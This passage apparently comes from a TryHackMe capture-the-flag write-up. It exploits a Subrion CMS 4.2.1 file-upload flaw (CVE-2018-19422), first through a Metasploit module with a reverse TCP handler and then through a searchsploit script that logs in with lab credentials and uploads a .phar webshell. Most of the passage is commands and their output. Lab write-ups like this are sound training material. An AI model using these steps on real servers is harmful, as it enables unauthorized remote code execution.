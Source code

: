 Let's use it :

```
msf6 exploit(multi/http/subrion_cms_file_upload_rce) > set Password Scam2021
Password => Scam2021
msf6 exploit(multi/http/subrion_cms_file_upload_rce) > set rhosts 10.10.1.80
rhosts => 10.10.1.80
msf6 exploit(multi/http/subrion_cms_file_upload_rce) > set lhost 10.8.162.183
lhost => 10.8.162.183
msf6 exploit(multi/http/subrion_cms_file_upload_rce) > set TARGETURI /subrion/panel
TARGETURI => /subrion/panel
msf6 exploit(multi/http/subrion_cms_file_upload_rce) > exploit
[*] Started reverse TCP handler on 10.8.162.183:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response at: http://10.10.1.80/subrion/panel/panel/
[+] Target is running Subrion CMS.
[*] Checking Subrion CMS version...
[+] Target is running Subrion CMS Version 4.2.1.
[+] The target appears to be vulnerable. However, this version check does not guarantee that the target is vulnerable, since a fix for the vulnerability can easily be applied by a web admin.
[*] Connecting to Subrion Admin Panel login page to obtain CSRF token...
[+] Successfully obtained CSRF token: 7w2BoAqe01nfK6ggtrTakYwpjfd6uCzXTx0yXdpj
[*] Logging in to Subrion Admin Panel at: http://10.10.1.80/subrion/panel/panel/ using credentials admin:Scam2021

```

I can't have a meterpreter shell idk why don't work.

## Searchsploit

We will use [[Searchsploit]] to search for the [[Exploit]] and use it :

```
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Tech_Support1]
└─$ python3 49876.py -h
Usage: 49876.py [options]

Options:
  -h, --help            show this help message and exit
  -u URL, --url=URL     Base target uri http://target/panel
  -l USER, --user=USER  User credential to login
  -p PASSW, --passw=PASSW
                        Password credential to login
                                                                                                               
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Tech_Support1]
└─$ python3 49876.py -u http://10.10.1.80/subrion/panel/ -l admin -p Scam2021
[+] SubrionCMS 4.2.1 - File Upload Bypass to RCE - CVE-2018-19422 

[+] Trying to connect to: http://10.10.1.80/subrion/panel/
[+] Success!
^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B[+] Got CSRF token: Y3RE2CooiWrYBhmUaPXfooexcSlbNJVVgrE0OFEC
[+] Trying to log in...
[+] Login Successful!

[+] Generating random name for Webshell...
[+] Generated webshell name: myyxxvnjmgumqza

[+] Trying to Upload Webshell..
[+] Upload Success... Webshell path: http://10.10.1.80/subrion/panel/uploads/myyxxvnjmgumqza.phar 

$ whoami

$ ls
```
